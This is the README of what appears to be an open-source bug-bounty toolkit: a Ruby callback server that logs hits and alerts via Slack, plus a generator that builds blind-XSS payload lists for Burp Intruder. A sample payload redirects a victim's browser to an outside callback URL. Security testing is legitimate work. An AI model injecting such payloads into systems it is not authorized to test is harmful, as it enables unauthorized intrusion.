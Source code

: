 # hack @ ajoekerr

:boom: Bug bounty in a box! This repository contains all that you should need to get up and running to test for bugs against your targets.

## Project Status

This is by no means "production ready"; there are still some server configuration options that need to be explored before this should be run in production.

## Quickstart

To get up & hacking, you'll need to:

1. Move the configuration sample: `mv config/application.yml.sample config/application.yml`
1. Edit the `config/application.yml` to your preferences
1. Install the gems: `bundle install`
1. Start the server: `ruby app.rb`
1. Move the payload sample: `mv payloads/xss.yml.sample payloads/xss.yml`
1. Generate the payloads: `ruby generate_payloads.rb --callback=YOUR_SERVER_URL --target=YOUR_TARGET`
1. Use `payloads/xss.txt` in Burp's Intruder (or something similar)
1. Cross your fingers...
1. Profit!

## How does this work?

This "bug bounty in a box" has two different components:
1. A payload callback server
1. A payload generator

### Callback Server

The callback server, written in Ruby & using [Sinatra](http://sinatrarb.com/), currently has the following capabilities:

* Callback: A callback with a payload & target parameter will log the "callback" to a on-server text log as well as send a Slack message to a Slack webhook. (`/callback`)
* Redirect: Redirects to a specified URL in the redirect GET parameter. (`/redirect`)

#### Configuring the server

You can configure the server in `config/application.yml`! See below for the different configuration options.

##### Slack

In order to receive Slack callbacks, you'll need to set the appropriate `slack_url`. To generate an incoming webhook for your Slack instance, check out [Slack's Help Center](https://get.slack.help/hc/en-us/articles/115005265063-Incoming-WebHooks-for-Slack).

##### Logging

If you'd like to change either the frequency of the log rotation or the log filenames, check out the configuration file.

### Payload Generator

The payload generator uses `.yml` files to generate a `.txt` files that contain a list of payloads that can be used in a tool like Burp Intruder.

#### Running the payload generator

Before running the payload generator, make sure you have some properly formatted `.yml` files in the `payloads` folder! After you've done that, you'll need to run the payload generator with the `--callback` and `--target` flags like such:

```bash
ruby generate_payloads.rb --callback=localhost:4567/callback --target=www.example.com
```

Then, check out the `payloads` folder for the `.txt` file with a list of payloads!

#### Configuring payloads

In order to add a new class of payloads, just create a new `.yml` file with the following:

```yaml
name: XSS
payloads:
  - description: A simple XSS payload
    payload: <script>document.location='CALLBACK_URL'</script>
  - payload: <script>document.location="CALLBACK_URL"</script>
```

The `CALLBACK_URL` will be replaced with whatever is passed in with the `--callback` flag with some added parameters of (1) a callback description & (2) the target.

## Contributing

Want to contribute? Great! Here's what you do:

1. Fork this repository
1. Push some code to your fork
1. Come back to this repository and open a PR
1. After some review, get that PR merged to master
1. :tada: Thank you for your contribution!!

Feel free to also open an issue with any bugs/comments/requests!
